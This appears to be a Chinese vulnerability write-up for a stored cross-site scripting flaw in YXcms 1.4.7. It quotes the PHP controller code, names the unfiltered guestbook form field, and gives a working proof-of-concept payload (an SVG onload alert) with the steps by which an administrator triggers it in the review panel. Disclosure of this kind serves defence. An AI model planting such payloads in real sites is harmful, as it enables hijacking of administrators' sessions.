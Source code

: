 ```yaml
---
title: YXCMS 1.4.7储存型xss
id: zhfly3297
---
```


# YXcms 1.4.7 储存型xss

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php

```
public function index()
{
    $ename=in($_GET['col']);
    if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
    $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
    $path=$sortinfo['path'].','.$sortinfo['id'];
    $deep=$sortinfo['deep']+1;
    $this->col=$ename;
    switch ($sortinfo['type']) {
        case 1://文章
            $this->newslist($sortinfo,$path,$deep);
            break;
        case 2://图集
            $this->photolist($sortinfo,$path,$deep);
            break;
        case 3://单页
            $this->page($sortinfo,$path,$deep);
            break;
        case 4://应用

```
 break;
    case 5://自定义

        break;
    case 6://表单
        $this-&gt;extend($sortinfo,$path,$deep);
        break;
    default:
        throw new Exception('未知的栏目类型~', 404);
        break;
} 
``` `}` 
```

后台的文件源码protected/apps/admin/controller/extendfieldController.php

```
public function mesedit()
{
    $tableid=intval($_GET['tabid']);
    if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
    $id=intval($_GET['id']);//信息id
    if(empty($tableid) || empty($id) ) $this->error('参数错误~');
    $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
    if(empty($tableinfo)) $this->error('自定义表不存在~');
    if (!$this->isPost()) {
       $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
       $this->info=$info;
       $this->tableid=$tableid;
       $this->id=$id;
       $this->tableinfo=$tableinfo;
       $this->display();
    }else{
       for($i=1;$i<count($tableinfo);$i++){
        if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
          $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
        else
          $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
       }
       if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
       else $this->error('信息修改失败~');
     }
} 
```

中间没什么过滤

### 复现

```
http://0-sec.org/index.php?r=default/column/index&col=guestbook 
```

payload：

```
<svg/onload=alert(1)> 
```

![image](../img/d5d8d771adaf8da2e7bbe521974ad814.png)

然后登陆后台，查看审核

![image](../img/c15d86f6fe9ce2392e67d0fd2f56d9c7.png)

点击编辑

![image](../img/841b6d0af7ed1e66c899bca37d6e664e.png)